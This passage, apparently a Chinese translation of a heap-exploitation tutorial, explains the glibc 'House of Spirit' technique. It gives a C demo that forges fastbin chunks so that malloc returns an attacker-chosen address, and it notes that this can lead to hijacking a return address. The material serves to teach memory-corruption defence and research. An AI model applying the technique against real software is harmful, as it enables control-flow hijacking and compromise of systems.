

## 1. 概述
House of Spirit 与其他攻击稍有不同，表现为攻击者是在chunk被free之前覆盖现有指针。具体方法是：攻击者创建一个 fake chunk，它可以驻留在内存中的任何位置（堆，堆栈等），通过重写chunk指针指向fake chunk，从而达到分配一个任意地址的chunk的目的。此外，必须对fake chunk进行合适的设置以便通过所有安全检查。这种设置并不困难，只需设置好fake chunk和其下一个chunk的`size`位。当fake chunk被free后，它会被插入到一个合适的bin链表（最可能是fastbin）中。未来对该大小的`malloc`调用将返回攻击者构造的fake chunk。最终结果类似于前面描述的"forging chunks attack"。

## 2. 示例程序[[完整代码](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/house_of_spirit.c)]
```C
struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];                   // chunk falls in fastbin size range
};

struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
// fake_chunks[0] at 0x7ffe220c5ca0
// fake_chunks[1] at 0x7ffe220c5ce0

void *ptr, *victim;

ptr = malloc(0x30);                 // First malloc

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk); 

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);  

// Attacker overwrites a pointer that is about to be 'freed'
ptr = (void *)&fake_chunks[0].fd;

// fake_chunks[0] gets inserted into fastbin
free(ptr);

victim = malloc(0x30);              //  address returned from malloc
```
运行上述程序并查看fake_chunk[0]、fake_chunk[1]和victim的地址可以看到：


正如预期的那样，两个fake chunk的地址在内存中是连续的，且victim返回的指针地址在fake_chunks[0]地址前面0x10即16个字节，也即chunk的`fd`指针地址。

这种攻击为更多攻击提供了可能：如若victim指向堆栈而不是堆段上的内存，通过修改堆栈上的返回地址，攻击者可以控制程序的执行。
